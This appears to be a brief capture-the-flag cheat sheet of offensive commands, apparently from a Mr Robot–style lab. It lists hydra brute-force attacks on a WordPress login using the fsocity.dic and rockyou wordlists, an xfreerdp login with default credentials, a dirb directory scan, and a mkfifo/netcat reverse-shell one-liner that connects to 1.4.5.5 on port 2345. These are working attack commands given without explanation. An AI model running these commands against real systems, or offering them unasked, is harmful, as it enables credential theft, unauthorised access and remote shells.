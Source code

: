 RDP: xfreerdp /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea
 hydra -L fsocity.dic -p test 10.10.202.57 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30

hydra -l Elliot -P /usr/share/wordlists/rockyou.txt 10.10.202.57 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password" -t 30

scan common extensions
dirb http://10.10.154.46/ /usr/share/wordlists/dirb/big.txt -x /usr/share/wordlists/dirb/extensions_common.txt -o dirb_big_ext.txt

BASH Rev shell
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.4.5.5 2345 >/tmp/f" > shell.sh

